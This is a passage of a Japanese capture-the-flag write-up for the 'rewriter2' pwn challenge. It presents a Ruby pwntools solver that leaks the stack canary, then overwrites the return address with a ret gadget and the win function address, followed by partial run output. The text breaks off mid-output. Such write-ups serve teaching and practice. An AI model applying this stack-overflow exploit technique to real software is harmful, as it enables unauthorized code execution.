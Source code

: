 ということらしいです。

なので、適当な`ret`命令→`win`関数のように飛ばしてあげるようにソルバを書き直してみました。
実際に書き直したソルバは以下です。

```rb:solver.rb
# frozen_string_literal: true

require('pwn')

context.log_level = :debug

io = case ARGV[0]
     when 'r'
       Pwnlib::Tubes::Sock.new('rewriter2.beginners.seccon.games', 9001)
     else
       Pwnlib::Tubes::Process.new('./rewriter2')
     end

puts io.recvuntil("What's your name? ")
payload = 'a' * 0x8 * 5
payload += 'b'
io.send(payload)
puts io.recvuntil(payload)
canary_bytes = io.recvn(0x7).bytes
canary = [0x0, *canary_bytes].pack('C*')

puts io.recvuntil('How old are you? ')
payload = 'a' * 0x8 * 5
payload += canary
payload += 'a' * 0x8
payload += [0x401564].pack('q') # ret
payload += [0x4012c2].pack('q') # win
io.send(payload)

puts io.recvuntil('Congratulations!')
puts io.interact
```

そして、実行してみると、、

```
$ ruby solver.rb r

 [Addr]             | [Value]
====================+===================
 0x00007fff26b59280 | 0x00007f50fcec72e8  <- buf
 0x00007fff26b59288 | 0x00000000004014e0
 0x00007fff26b59290 | 0x0000000000000000
 0x00007fff26b59298 | 0x0000000000401110
 0x00007fff26b592a0 | 0x00007fff26b593a0
 0x00007fff26b592a8 | xxxxx hidden xxxxx  <- canary
 0x00007fff26b592b0 | 0x0000000000000000  <- saved rbp
 0x00007fff26b592b8 | 0x00007f50fccfa083  <- saved ret addr
 0x00007fff26b592c0 | 0x00007f50fcef9620
 0x00007fff26b592c8 | 0x00007fff26b593a8

What's your name?

Hello, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaab

 [Addr]             | [Value]
====================+===================
 0x00007fff26b59280 | 0x6161616161616161  <- buf
 0x00007fff26b59288 | 0x6161616161616161
 0x00007fff26b59290 | 0x6161616161616161
```